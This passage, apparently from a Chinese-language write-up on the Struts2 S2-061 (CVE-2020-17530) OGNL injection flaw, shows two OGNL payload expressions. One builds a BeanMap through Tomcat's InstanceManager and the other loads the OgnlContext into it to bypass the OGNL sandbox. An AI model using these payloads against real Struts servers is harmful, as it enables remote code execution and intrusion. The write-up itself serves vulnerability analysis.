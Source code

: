 整体创建的Ognl表达式（这里存放到application中，方便多次请求使用）

```
%{#application.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')}
```

获取到`OgnlContext`对象 （实际就是`#attr` 、`#request` 等map对象中的 `struts.valueStack`）并且设置到上一步的BeanMap中，用于绕过沙盒限制，进行内部方法调用。

[![img](.resource/%EF%BC%88CVE-2020-17530%EF%BC%89S2-061/media/t01e4878c6396e917f0.png)](https://p2.ssl.qhimg.com/t01e4878c6396e917f0.png)

Ognl表达式代码

```
%{#application.map.setBean(#request.get('struts.valueStack'))}
```

